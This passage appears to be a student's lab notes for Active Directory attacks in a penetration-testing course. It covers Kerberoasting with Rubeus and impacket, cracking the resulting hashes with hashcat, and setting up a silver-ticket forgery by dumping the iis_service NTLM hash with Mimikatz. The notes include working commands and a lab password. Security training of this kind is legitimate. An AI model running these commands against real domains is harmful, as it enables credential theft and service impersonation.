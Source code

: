 ```
cd C:\Tools
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

- copy hashes to kali and determine what mode for hashcat to use before attempting to crack it
```
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
need the user's password - Nexus123!
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.214.70 corp.com/pete
```

### VM 2
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.214.70 corp.com/jeff
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r rule1 --force
```


### Silver tickets
- we are going to forge our own service tickets
- need to use a service account such as iis_service
- the application blindly trusts the integrity of the service ticket since it is encrypted with a password hash that is, in theory, only known to the service account and the domain controller.
- if PAC (Privileged Attribute Certificate) is enabled, the user authenticating to the service and its privileges are validated by the domain controller
- most services do not have this enabled
- need SPN password hash, Domain SID and Target SPN to create a silver ticket
- allows us to login to a service as an admin  user, when we don't have their password or hash

note we currently cannot access
```
iwr -UseDefaultCredentials http://web04
```

Since we are a local Administrator on this machine where iis_service has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of iis_service)
```
cd C:\Tools
.\mimikatz.exe
privilege::debug
```

grab the NTLM hash of iis_service
```
sekurlsa::logonpasswords
```

now we need domain SID (remove the last number, the user id)
```
whoami /user
```
